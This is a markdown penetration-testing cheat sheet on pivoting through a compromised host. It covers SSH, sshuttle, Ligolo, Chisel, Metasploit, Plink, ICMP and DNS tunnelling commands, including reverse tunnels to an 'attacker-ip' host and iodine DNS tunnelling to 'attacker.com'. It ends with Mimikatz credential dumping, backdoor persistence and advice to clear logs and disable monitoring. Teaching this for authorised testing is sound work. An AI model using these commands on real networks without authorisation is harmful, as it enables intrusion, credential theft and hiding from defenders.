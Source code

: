 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 


## Types of Pivoting
- **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
- **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
- **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
- **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
- **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
- **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
- **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
- **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
- **ICMP Tunneling** - Encapsulating data within ICMP packets.
- **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

--- 
# Pre Pivot Steps
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).
--- 
# Pivoting
  - ## SSH Tunneling (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Use ProxyChains with Chisel for further tunneling.
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Additionaly could be done
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

